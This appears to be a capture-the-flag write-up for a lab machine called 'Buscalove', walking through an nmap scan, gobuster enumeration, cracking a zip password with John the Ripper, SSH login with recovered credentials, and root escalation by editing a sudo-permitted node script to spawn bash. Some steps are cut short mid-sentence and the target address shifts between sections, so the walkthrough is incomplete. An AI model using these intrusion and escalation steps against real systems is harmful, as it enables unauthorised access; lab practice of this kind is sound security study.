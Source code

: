 # Buscalove

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Analyzing Web page and the infraestructure.

First we need to know if exist some hide files or directories. We use gobuster tool

```ruby
gobuster dir -u http://172.18.0.2 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt
```

we find  following:
![alt text](Imagenes/Busca_1.png)

We obtain the directory called `wordpress` so we can find some clues.
![alt text](Imagenes/Busca_2.png)

If I inspect the 

![alt text](Imagenes/Busca_3.png)

```ruby
john --wordlist=rockyou.txt hash.txt
```

```ruby
secretitopicaron.zip/password.txt:password1:password.txt:secretitopicaron.zip::secretitopicaron.zip
1 password hash cracked, 0 left
```

Finally, we obtain the password, `password1` . Now we can try extract secretetitopicaron.zip.
if we extract the file, we obtain a password file.

```ruby
mario:laKontraseñAmasmalotaHdelbarrioH
```

These are possible credentials for the SSH service.


## Intrusion

If we use the new credentials, we can access the SSH service.

![alt text](Imagenes/Node_3.png)


## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for mario on 0730eda13522:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0730eda13522:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js

```

We can see that we can execute the script in /home/mario, so we can try to edit this file to spawn a shell with root privileges.


Therefore, we need to edit the script with the following code:

```ruby
const { execSync } = require('child_process');
execSync('/bin/bash', {stdio: 'inherit'});

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo /usr/bin/node /home/mario/script.js
```
![alt text](Imagenes/Node_2.png)

